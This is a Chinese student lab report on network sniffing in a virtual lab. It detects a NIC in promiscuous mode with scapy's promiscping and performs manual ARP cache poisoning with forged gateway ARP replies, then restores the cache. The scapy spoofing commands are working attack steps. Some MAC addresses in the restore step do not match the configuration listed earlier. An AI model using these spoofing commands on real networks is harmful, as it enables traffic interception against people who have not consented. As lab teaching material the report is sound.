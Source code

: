 # 实验四 网络监听

### 实验环境

**拓扑图**

<img title="" src="img/Topology.png" alt="" data-align="center">

**网络配置**

- 网关
  
  `08 : 00 : 27 : 4b : a0 : 35/enp0s9`
  
  `172.16.111.1`
  
  <img title="" src="img/gatewayIP.png" alt="" data-align="center">

- 攻击者主机
  
  `08 : 00 : 27 : 15 : 1a : 80/eth0`
  
  `172.16.111.120`
  
  <img src="./img/attacker.png" title="" alt="" data-align="center">

- 受害者主机
  
  `08 : 00 : 27 : 79 : f4 : 83/eth0`
  
  `172.16.111.121`
  
  <img title="" src="img/victim.png" alt="" data-align="center">

### 准备工作

**安装scapy**

在攻击者主机上提前安装好 [scapy](https://scapy.net/)

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

<img src="img/Installscapy.png" title="" alt="" data-align="center">

### 实验一 检测局域网中的异常中断

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth1
```

<img title="" src="img/Check%20the%20promiscuous%20mode2.png" alt="" data-align="center">

```bash
# 在攻击者主机上开启 scapy
sudo scapy
```

<img src="img/enable%20scapy.png" title="" alt="" data-align="center">

```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.121")

# 注意上述输出结果里应该没有出现 PROMISC 字符
```

<img src="img/promiscping.png" title="" alt="" data-align="center">

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![](img/enablepromisc.png)

再回到攻击者主机执行`promiscping` 命令

```bash
pkt = promiscping("172.16.111.121")
```

<img src="img/promiscpingsuccess.png" title="" alt="" data-align="center">

可以看出在混杂模式下，受害者主机收到了这个数据包

下面是用wireshark观察受害者主机的eth0网卡

<img src="img/wireshark.png" title="" alt="" data-align="center">

可以发现收到了promiscping 命令发送的 ARP数据包

通过对比是否开启网卡的**混杂模式**的两种情况，发现发送出去的数据包在没有指定目的主机的MAC地址时，普通模式下发送不会成功

### 实验2 手工单步“毒化”目标主机ARP缓存

“毒化”过程均在攻击者主机的`scapy`交互式终端进行

- **获取当前局域网的网关MAC地址**
  
  ```bash
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
  
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```
  
  <img src="img/fakeARP.png" title="" alt="" data-align="center">

- **伪造网关的ARP响应包**
  
  ```bash
  # 准备发送给受害者主机
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  # 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
  arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.121", hwdst="08:00:27:15:1a:80")
  
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  ```
  
  <img src="img/victimARP.png" title="" alt="" data-align="center">
  
  网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

- **恢复受害者主机的ARP缓存记录**
  
  ```bash
  ## 伪装网关给受害者发送 ARP 响应
  restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:11:54:d2", pdst="172.16.111.121", hwdst="08:00:27:79:f4:23")
  sendp(restorepkt1, count=100, inter=0.2)
  ```
  
  <img src="img/recoverARP1.png" title="" alt="" data-align="center">
  
  在受害者主机上再次查看ARP缓存
  
  <img title="" src="img/recoverARP2.png" alt="" data-align="center">
  
  此时网关也能ping通

### 问题及解决

- scapy命令报错
  
  <img src="img/scapyerro.png" title="" alt="" data-align="center">
  
  改为`sudo scapy`提高一下权限就解决了

- 无法发送伪造的ARP广播包
  
  首先得确保攻击者主机、网关、受害者主机在同一局域网内，我的网卡配置如下：
  
  | 主机    | 网卡                          |
  | ----- | --------------------------- |
  | 攻击者   | 内部网络（internet1）             |
  | 受害者主机 | 内部网络（internet1）             |
  | 网关    | 网络地址转换（NAT）、内部网络（internet1） |
  
  这里需要注意的是：攻击者主机尽量启用唯一网卡，原因是当有多张网卡时，发送ARP广播包时无法从内部网络（internet1）这张网卡发出，既然“发错了局域网”，就会导致无法到达受害者主机

### 参考资料

[How to Install and Use Wireshark on Ubuntu](https://linuxhint.com/install_wireshark_ubuntu/)

[scapy ARP](https://stackoverflow.com/questions/50703738/what-is-the-meaning-of-the-scapy-arp-attributes)
